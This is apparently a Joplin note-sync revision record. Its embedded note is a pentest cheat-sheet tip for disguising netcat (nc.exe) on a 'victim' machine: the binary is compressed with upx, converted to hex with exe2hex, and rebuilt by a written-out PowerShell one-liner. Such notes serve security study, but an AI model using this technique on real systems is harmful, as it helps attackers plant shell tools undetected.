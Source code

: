 id: a0a30575f0b747ccbce5cb5ce9ece2a2
parent_id: 
item_type: 1
item_id: eb0dd24d50ca438a82aff2cc7e226ee9
item_updated_time: 1646016697028
title_diff: "[{\"diffs\":[[1,\"3822cc0f7b034c9182855c18663965d9\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Upload by Hex Content\\\r\\\n\\\r\\\n## For concealing what the exe file is, and rebuilding the file in the victim\\\r\\\n\\\r\\\nFirst use upx to reduce the size of the file, but maintain its operability\\\r\\\n\\\r\\\n> upx -9 nc.exe\\\r\\\n\\\r\\\nThen convert the EXE to a file with HEX values. Use the .cmd for reference\\\r\\\n\\\r\\\n> exe2hex -x nc.exe -p nc.cmd\\\r\\\n\\\r\\\nOnce the file is transferred, run the program (using command prompt), and then compile it to nc.exe with powershell\\\r\\\n\\\r\\\n> ./nc.cmd\\\r\\\n> \\\r\\\n> powershell -Command \\\"$h=Get-Content -readcount 0 -path './nc.hex'; $l=$h\\\\[0\\\\].length;$b=New-Object byte\\\\[\\\\] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b\\\\[$x\\\\]=\\\\[byte\\\\]::Parse($h\\\\[0\\\\].Substring($i,2),\\\\[System.Globalization.NumberStyles\\\\]::HexNumber);$x+=1}; Set-Content -encoding byte 'nc.exe' -value $b; Remove=Item -force nc.hex;\\\"\\\r\\\n\\\r\\\nid: 3822cc0f7b034c9182855c18663965d9\\\r\\\nparent_id: 819fca2060d64809bbdac4fc93fdd86a\\\r\\\ncreated_time: 2022-01-28T02:01:40.100Z\\\r\\\nupdated_time: 2022-01-28T02:32:43.927Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-28T02:01:40.100Z\\\r\\\nuser_updated_time: 2022-01-28T02:32:43.927Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1429}]"
metadata_diff: {"new":{"id":"eb0dd24d50ca438a82aff2cc7e226ee9","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016697016,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.624Z
created_time: 2022-02-28T02:54:22.624Z
type_: 13